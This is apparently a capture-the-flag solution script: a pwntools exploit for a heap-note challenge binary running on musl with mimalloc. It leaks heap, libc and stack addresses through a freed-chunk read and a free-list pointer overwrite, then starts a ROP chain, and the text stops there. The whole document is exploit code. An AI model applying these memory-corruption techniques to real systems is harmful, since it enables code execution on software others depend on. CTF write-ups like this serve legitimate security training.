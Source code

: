 **Complete Exploitation Script**

```python
from pwn import *
elf = context.binary = ELF('./chal_patched')
libc = ELF('./ld-musl-x86_64.so.1')
global r
env = {
    'LD_PRELOAD': './libmimalloc.so.2.2'
}
r = process('./chal_patched',env=env)
gdb.attach(r,gdbscript='b *update')
# r = remote('doremi.chal.uiuc.tf', 1337, ssl=True)
def create(index):
    r.sendlineafter(b'YAHNC> ',b'1')
    r.sendlineafter(b'Position? (0-15): ',str(index).encode())

def look(index):
    r.sendlineafter(b'YAHNC> ',b'3')
    r.sendlineafter(b'Position? (0-15): ',str(index).encode())  

def free(index):
    r.sendlineafter(b'YAHNC> ',b'2')
    r.sendlineafter(b'Position? (0-15): ',str(index).encode())     

def edit(index,content):
    r.sendlineafter(b'YAHNC> ',b'4')
    r.sendlineafter(b'Position? (0-15): ',str(index).encode())
    r.sendlineafter(b'Content? (127 max): ',content)

######################### heap leak ##########################
create(0)
edit(0,b'a'*100)
create(1)
free(0)
free(1)
look(1)

heap_leak = unpack(r.recv(6),'all')  
print(hex(heap_leak))

################## leak libc address ###############################
edit(1,pack(heap_leak+0x5980a000160+6*8-0x5980a010080)) #overwriting the next pointer of local free list
 for i in range(31): #allocating 31 chunks
    create(2)
create(3) #fake chunk allocated on free list
look(3)
r.recv(6*8)
libc.address = unpack(r.recv(6),'all')-0x00007caf37884100+0x7caf3788c000
print(hex(libc.address))

################################# stack leak #########
libc_environ = libc.address + 0x7da0fe9c6d60 - 0x7da0fe922000
edit(3,pack(libc_environ))
create(4)
look(4)
stack_leak = unpack(r.recv(6),'all')
print(hex(stack_leak)) 
######################################################

###################### rop_chain ######################
ROP = ROP(libc)
rdi = libc.address + 0x0000000000014413
```